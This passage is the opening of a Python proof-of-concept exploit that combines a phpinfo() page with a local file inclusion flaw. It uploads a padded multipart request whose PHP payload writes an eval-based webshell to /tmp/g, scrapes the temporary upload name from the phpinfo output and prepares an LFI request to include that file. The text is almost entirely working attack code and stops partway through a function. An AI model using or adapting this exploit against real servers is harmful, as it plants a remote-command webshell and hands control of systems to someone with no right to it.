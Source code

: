 ### poc

    #!/usr/bin/python 
    import sys
    import threading
    import socket

    def setup(host, port):
        TAG="Security Test"
        PAYLOAD="""%s\r
    <?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
        REQ1_DATA="""-----------------------------7dbff1ded0714\r
    Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
    Content-Type: text/plain\r
    \r
    %s
    -----------------------------7dbff1ded0714--\r""" % PAYLOAD
        padding="A" * 5000
        REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
    Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
    HTTP_ACCEPT: """ + padding + """\r
    HTTP_USER_AGENT: """+padding+"""\r
    HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
    HTTP_PRAGMA: """+padding+"""\r
    Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
    Content-Length: %s\r
    Host: %s\r
    \r
    %s""" %(len(REQ1_DATA),host,REQ1_DATA)
        #modify this to suit the LFI script   
        LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
    User-Agent: Mozilla/4.0\r
    Proxy-Connection: Keep-Alive\r
    Host: %s\r
    \r
    \r
    """
        return (REQ1, TAG, LFIREQ)

    def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

        s.connect((host, port))
        s2.connect((host, port))

        s.send(phpinforeq)
        d = ""
        while len(d) < offset:
            d += s.recv(offset)
        try:
            i = d.index("[tmp_name] =&gt; ")
            fn = d[i+17:i+31]
        except ValueError:
            return None
